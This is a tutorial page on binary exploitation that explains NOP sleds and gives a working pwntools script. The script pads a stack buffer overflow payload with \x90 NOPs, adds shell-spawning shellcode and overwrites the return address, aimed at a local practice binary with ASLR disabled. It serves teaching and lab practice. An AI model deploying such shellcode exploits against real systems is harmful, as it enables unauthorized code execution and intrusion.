 ```yaml
---
description: We can use NOPs for more reliable shellcode exploits
---
```


# NOPs

NOP \(no operation\) instructions do exactly what they sound like: _nothing_. Which makes then very useful for shellcode exploits, because all they will do is run the next instruction. If we pad our exploits on the left with NOPs and point EIP at the middle of them, it'll simply keep doing no instructions until it reaches our actual shellcode. This allows us a greater margin of error as a shift of a few bytes forward or backwards won't really affect it, it'll just run a different number of NOP instructions - which have the same end result of running the shellcode. This padding with NOPs is often called a NOP slide or NOP sled, since the EIP is essentially sliding down them.

In intel x86 assembly, NOP instructions are `\x90`.

{% hint style="info" %}
The NOP instruction actually stands for `XCHG EAX, EAX`, which does effectively nothing. You can read a bit more about it [on this StackOverflow question](https://stackoverflow.com/questions/25008772/whats-the-difference-between-the-x86-nop-and-fnop-instructions/25053039).
{% endhint %}

### Updating our Shellcode Exploit

We can make slight changes to our exploit to do two things:

* Add a large number of NOPs on the left
* Adjust our return pointer to point at the middle of the NOPs rather than the buffer start

{% hint style="warning" %}
Make sure ASLR is still disabled. If you have to disable it again, you may have to readjust your previous exploit as the buffer location my be different.
{% endhint %}

```python
from pwn import *

context.binary = ELF('./vuln')

p = process()

payload = b'\x90' * 240                 # The NOPs
payload += asm(shellcraft.sh())         # The shellcode
payload = payload.ljust(312, b'A')      # Padding
payload += p32(0xffffcfb4 + 120)        # Address of the buffer + half nop length

log.info(p.clean())

p.sendline(payload)

p.interactive()
```

{% hint style="warning" %}
It's probably worth mentioning that shellcode with NOPs is not failsafe; if you receive unexpected errors padding with NOPs but the shellcode worked before, try reducing the length of the nopsled as it may be tampering with other things on the stack
{% endhint %}

Note that NOPs are only `\x90` in certain architectures, and if you need others you can use pwntools:

```python
nop = asm(shellcraft.nop())
```

